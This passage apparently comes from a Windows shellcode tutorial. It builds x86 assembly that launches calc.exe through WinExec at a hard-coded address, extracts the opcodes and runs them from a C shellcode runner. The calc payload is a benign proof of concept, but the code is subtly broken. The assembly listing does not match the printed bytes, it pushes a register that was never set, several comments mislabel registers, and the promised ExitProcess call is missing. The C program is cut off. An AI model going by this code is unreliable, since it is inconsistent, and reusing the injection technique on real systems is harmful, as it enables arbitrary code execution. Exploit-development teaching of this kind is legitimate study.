 Due to endianness, it is also important to remember that when pushing strings onto the stack, they must be pushed in reverse order. Therefore, when we want to push `calc.exe0,` we must:

- push 0
- push "exe."
- push the "clac"

The Assembly code that executes calc through `Winexec()` can be written in the following way:

```nasm
BITS 32

global _start
xor  ebx, ebx         ; zero out ebx
push ebx              ; string terminator 0x00 for "calc.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x636c6163       ; clac : 636c6163

mov  ecx, esp         ; save pointer to "calc.exe" string in ebx

inc  ecx              ; uCmdShow = 1
push ecx              ; uCmdShow *ptr to stack in 2nd position - LIFO
push eax              ; lpcmdLine *ptr to stack in 1st position
mov  ebx, 0x76783231  ; call WinExec() function addr in kernel32.dll
call ebx
```

After executing calc, the `ExitProcess()` function gracefully terminates the process. Compile the code using `nasm`:

```bash
nasm test2.asm -o test2.bin
```

We'll then extract the opcodes using `bin2shell.py`, as follows:

```bash
python2.7 bin2shell.py test2.bin
```

![img](images/2022-06-12_20-05.png)

Now, let's copy the opcodes and compile the shellcode tester:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51\x50\xbb\x31\x32\x78\x76\xff\xd3";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
```